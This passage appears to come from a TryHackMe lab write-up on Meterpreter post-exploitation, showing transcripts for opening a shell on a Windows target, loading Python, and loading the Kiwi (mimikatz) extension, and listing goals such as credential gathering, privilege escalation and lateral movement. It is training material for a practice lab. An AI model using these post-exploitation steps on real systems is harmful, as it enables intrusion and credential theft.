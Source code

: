 ### Shell
The shell command will launch a regular command-line shell on the target system. Pressing CTRL+Z will help you go back to the Meterpreter shell.

**The shell command**
```bash
meterpreter > shell
Process 2124 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

## Task 5 Post-Exploitation Challenge
Start the AttackBox by pressing the Start AttackBox button at the top of this page. The AttackBox machine will start in Split-Screen view. If it is not visible, use the blue Show Split View button at the top of the page.

Commands mentioned previously, such as getsystem and hashdump will provide important leverage and information for privilege escalation and lateral movement. Meterpreter is also a good base you can use to run post-exploitation modules available on the Metasploit framework. Finally, you can also use the load command to leverage additional tools such as Kiwi or even the whole Python language.

**Loading Python**
```bash
meterpreter > load python
Loading extension python...Success.
meterpreter > python_execute "print 'TryHackMe Rocks!'"
[+] Content written to stdout:
TryHackMe Rocks!

meterpreter >
```

The post-exploitation phase will have several goals; Meterpreter has functions that can assist all of them.

Gathering further information about the target system.
Looking for interesting files, user credentials, additional network interfaces, and generally interesting information on the target system.
Privilege escalation.
Lateral movement.
Once any additional tool is loaded using the load command, you will see new options on the help menu. The example below shows commands added for the Kiwi module (using the load kiwi command).

**Loading Kiwi**
```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```
